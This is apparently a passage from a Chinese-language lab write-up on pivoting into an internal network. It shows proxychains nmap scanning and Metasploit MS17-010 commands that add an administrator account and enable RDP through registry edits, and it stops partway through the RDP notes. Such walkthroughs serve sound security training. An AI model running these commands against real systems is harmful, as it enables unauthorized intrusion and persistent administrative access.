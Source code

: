 如果此时希望使用`msf`或者`nmap`的话，就必须使用`proxychains`来进行启动程序，并且一定要注意`proxychains`只对`tcp`流量有效，所以`udp`和`icmp`都是不能代理转发的。



### 第二台机子

作者给出的内网漏洞列表如下：
![](https://i.loli.net/2021/04/18/pHdYtJsfjMAblaB.png)

扫一下目标端口

```
proxychains nmap -p 1-1000 -Pn -sT 192.168.52.141
```

![](https://i.loli.net/2021/11/06/aW2GFinl5HJodsh.png)



但是这些服务都默认没有开--，得手动打开才行

用ms17_010打个简单的shell回来，然后添加管理员用户尝试3389登录

```
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141

set command net user whoami1 Test32141 /add	# 添加用户
run

set command net localgroup administrators whoami1 /add	# 管理员权限
run

set command net localgroup administrators	# 查看用户
run

set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'		# win server2003开启3389
run
```

可以看到添加成功了捏

![](https://i.loli.net/2021/11/07/SrZi8dQoUn34RaW.png)

> 查看RDP端口
>
> > 查看端口
> >
> > ```
> > REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber
> > ```
> >
> >  得到连接端口为 0xd3d，转换后为 3389
>
> windows server 2003
>
> > 开启1：
> >
> > ```
> > REG ADD \"HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
> > ```
> >
> >  关闭：
> >
